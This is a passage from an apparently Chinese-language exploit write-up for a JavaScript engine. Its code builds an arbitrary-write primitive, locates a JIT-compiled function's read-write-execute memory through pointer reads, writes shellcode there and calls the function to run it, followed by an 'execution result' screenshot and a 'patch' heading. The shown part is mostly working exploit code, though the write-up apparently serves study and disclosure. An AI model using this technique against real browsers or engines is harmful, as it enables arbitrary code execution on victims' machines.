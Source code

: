 ```
    let len = Math.ceil(payload.length/6)
    for (let i = 0; i < len; i += 1) {
        tmp = 0;
        pow = 1;
        for(let j=0; j<6; j++){
            let c = payload[i*6+j]
            if(c === undefined) {
                c = 0;
            }
            pow = j==0 ? 1 : 256 * pow;
            tmp += c * pow;
        }
        tmp += 0xc000000000000;
        sc.push(tmp);
    }
    return sc;
}

function ArbitraryWrite(addr, payload) 
{
    let sc = ByteToDwordArray(payload);
    for(let i=0; i<sc.length; i++) {
        Write64(addr+i*6, sc[i]);
    }
}

var jitFuncAddr = NewAddrOf(jitFunc);
print("[+] jit function addr: "+hex(jitFuncAddr));

var executableBaseAddr = Read64(jitFuncAddr + 0x18);
var jitCodeAddr = Read64(executableBaseAddr + 0x8);
print("[+] jit code addr: "+hex(jitCodeAddr));

var rwxAddr = Read64(jitCodeAddr + 0x20);
print("[+] rwx addr: "+hex(rwxAddr));

ArbitraryWrite(rwxAddr, shellcode);
print("[+] trigger shellcode");

jitFunc();


```

执行效果：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201225182909-063d831e-469c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201225182909-063d831e-469c-1.png)

补丁
--
